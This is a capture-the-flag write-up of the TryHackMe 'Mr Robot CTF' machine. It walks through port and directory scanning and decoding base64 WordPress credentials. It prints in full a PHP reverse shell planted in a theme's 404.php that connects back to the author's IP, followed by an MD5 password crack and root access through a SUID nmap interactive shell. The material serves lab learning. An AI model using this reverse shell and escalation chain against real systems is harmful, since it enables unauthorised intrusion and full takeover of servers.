









# <center>Mr Robot CTF</center>
<p align='center'></p>


Hello hackers! Today we are back with another interesting THM machine called Mr Robot CTF. It is tagged as medium category machine but I didn't find anything special in this. It just took 1-2 hrs for me to complete.

So, let's start solving it. Start the machine and then wait for 1 min for ip to be shown. Once we get ip_address of the machine, we will go with scanning phase.

## Phase 1: Services and Port Scanning with Nmap

Namp is a great tool for scanning the target machine. It gives detail information about the ports and services running on the machine. Let's run this:

```bash                             
┌──(cryptoish㉿kali)-[~/mrrobot]
└─$ nmap -Pn -sC -sV -T4 10.10.56.114 -oN nmap_output.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 22:50 IST
Nmap scan report for 10.10.56.114
Host is up (0.29s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.91 seconds
```
- -Pn: no ping scan
- -sC: execute default nmap script
- -sV: service version detection
- -T4: speed up the scanning process
- -oN: save the output file in .txt format

### Key Findings
- http is running on port 80(default)
- https is running on port 443(default)
  
From the scan, we got port 80 running http so let's view the webpage by simply pasting ip on browser.

At first glance, the page look like this:

<p align='center'></p>

We found 5 commands to execute but after executing them it was a kind of scary notes that is not of much importance.

With that we have completed our phase1.

## Phase 2: Enumeration

Since we found nothing on the page, let's go with directory bruteforcing. For that we will use `gobuster` tool.

```bash
                                                                                                                              
┌──(cryptoish㉿kali)-[~/mrrobot]
└─$ gobuster dir -u http://10.10.56.114 -w=/usr/share/wordlists/dirb/common.txt --no-error -s 200 -t 60 --status-codes-blacklist ""
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:            http://10.10.56.114
[+] Method:         GET
[+] Threads:        60
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200
[+] User Agent:     gobuster/3.6
[+] Timeout:        10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/favicon.ico          (Status: 200) [Size: 0]
/index.html           (Status: 200) [Size: 1188]
/license              (Status: 200) [Size: 309]
/intro                (Status: 200) [Size: 516314]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/wp-cron              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2664]
/wp-config            (Status: 200) [Size: 0]
/wp-load              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- `dir`: start the gobuster in directory enumeration mode
- `-u `: url of the webpage
- `-w `: wordlist to use
- `--no-error:` won't display error message on the terminal that helps in keeping terminal clean
- `-s`: status code
- `-t`: no of threads
- `--status-codes-blacklist` : disable the defualt blacklist by setting it to empty string
  
### Major Findings:
- `/license`
- `/robots.txt`
- `/wp-login`
- `/readme`

On visiting robots.txt we got these two major files:
<p align='center'>

Among them one was our key. Paste that file in the browser like: `ip_address/key-1-of-3.txt` and that's all we got our first key just by visiting robots.txt file.

**Q1. What is key 1?**

**Ans:** 



With that we have completed second phase. Now, let's try to exploit the machine and get shell access.

## Phase 3: Exploitation

During directory bruteforcing we have found one directory for login i.e `/wp-login`. Let's navigate to that and see with some random tries.
 Arg! None of my tries hit.
Remember we have got another file called `fsocity.dic` from robots.txt. It contains very long list of words which hinted us to use it for bruteforcing the password or directories.
At first, we will use this wordlist for directory enumeration. Let's do it:


Cool! we have got `/license`. In these kind of machines license directory holds pretty important informations. So, let's see what is waiting there.
Once we visited the page, there was nothing more than a single line but I opened developers tool and looked into source code, I found this:

 It looks like base64 encoded. let's copy the content and decode it in the terminal.
 ```bash
 ┌──(cryptoish㉿kali)-[~/mrrobot]
└─$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 --decode
elliot:ER28-0652
 ```
 There we got username and password to login to the page.
 Upon successful logged in to the page I found some important php files on `Editor section of Apperance menu`.
 <p align='center'></p>

 Looking that I quickly thought of editing one of the php file with reverse shell code. For that I switched to pentest monkey site and copied this code: 
 ```php
 <?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.83.219';  // CHANGE THIS
$port = 4000;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
I changed the ip_address with my system ip and then set up a netcat listener on port 4000.
```bash
┌──(cryptoish㉿kali)-[~/Downloads]
└─$ nc -lvnp 4000
``` 
Upon editing 404.php file I typed some random path like 456 which gave page not found error triggering my revshell code. After succesfull triggering of my code I got shell.
```bash
┌──(cryptoish㉿kali)-[~/Downloads]
└─$ nc -lvnp 4000                                        
listening on [any] 4000 ...
connect to [10.17.83.219] from (UNKNOWN) [10.10.147.38] 60188
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 19:21:17 up 37 min,  0 users,  load average: 0.00, 0.06, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```
Now, let's stabalize the shell by executing simple python command: 
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then we moved to the home directory of robot and list the content with `ls -la` command. Uhh! we find the key but when tried to read the content it gave permission denied. But we also found `password.raw-md5` file where it has md5 hashed password of robot. Let's go to `crackstation.net` and paste the hash. There we found password of robot as `abcdefghijklmnopqrstuvwxyz`

Now let's login as robots using this command.
```bash
su robots
```
Type the password and then read the content of key-2-of-3.txt file. There we got our second key.

**Q2.What is key 2?**

**Ans:**



With that we have completed our phase3. Now we have to do privilege escalation to find the next key.

## Phase 4: Post Exploitation
First let's try to find if user robot can execute any commans without password. For that we will type:
```bash
robot@linux:~$ sudo -l 
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
```
That confirmed user robot cannot run sudo command. Now let's search if any file has SUID. For that let's run this command:
```bash
 find / -perm -u=s -type f 2>/dev/null
```
- `/` :  the search starts from the root and recursively searches through all directories and subdirectories.
- `-perm` : search for files with specific permissions
- `-s=u` :  looking for files with the setuid bit set. The setuid bit (s) allows users to execute the file with the permissions of the file owner
- `-type f` :  look for files only 
- `2>/dev/null` : redirects any error messages (file descriptor 2 is for errors) to /dev/null, effectively silencing them.



We have found that /usr/local/bin/nmap can be run with root user. So, let's search for technique to exploit it.
Upon searching for a while we found this command:
```bash
robot@linux:/usr/local/bin$ ./nmap --interactive
```
This command allowed us to run the nmap in interactive mode. Now let's type `!sh` to get root shell.
And then we got our root shell. Navigate to `/root` directory and read the key.

**Q3. What is key 3?**

**Ans:**




With that we have came to an end of this blog. W'll meet with some other interesting hacking stuffs. Till then continue your hacking journey! 